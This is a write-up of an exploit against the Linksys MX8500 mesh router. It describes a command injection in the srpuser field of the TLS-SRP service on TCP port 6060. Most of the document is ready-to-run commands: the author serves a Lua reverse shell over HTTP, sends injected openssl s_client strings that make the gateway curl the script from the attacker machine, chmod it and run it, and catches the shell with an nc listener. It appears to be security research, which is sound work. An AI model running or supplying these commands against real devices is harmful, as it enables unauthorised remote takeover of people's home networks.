


# Linksys Mesh Network Attack
## Intro
In this write-up, we use Linksys MX8500, firmware version 1.0.11.208937 as an illustration example. 

Linksys uses TLS-SRP as its NAPS protocol. The gateway node opens TCP port 6060 for this purpose. 

We identify a command injection for the `srpuser` field:



Thus, the key to breaking this protocol is that an attacker can taint the `srpuser` field in a TLS-SRP connection, to contain malicious commands. 

## Attack Step 1: Prepare a reverse shell script

I used [Reverse Shell Generator](https://www.revshells.com/) to generate a lua reverse shell for MX8500. 
Download my reverse shell [here](./luashell.sh), and you might want to change IP address and port number within this script to your own local machine's.

## Attack Step 2: Use openssl s_client to attack the gateway node
Install openssl on your own local machine. 

Host your lua shell prepared in Step 1 using this command: 
```
python3 -m http.server 4444
```

Run this command to let the gateway node (10.154.1.1) download the shell script from your local machine:

```
openssl s_client -srpuser "123| curl http://10.154.1.14:4444/luashell.sh -o /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

Run this command to let the gateway node chmod 777 the shell script:
```
openssl s_client -srpuser "123; chmod 777 /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

Run `nc` on your own local machine to listen to reverse shell connections:
```
nc -l 9002
```

Finally, run this command to execute the shell script on the gateway node:
```
openssl s_client -srpuser "123| /tmp/luashell.sh;" -srppass pass:xxxxxx -cipher SRP -connect 10.154.1.1:6060
```

We can see the result on the `nc` screen:


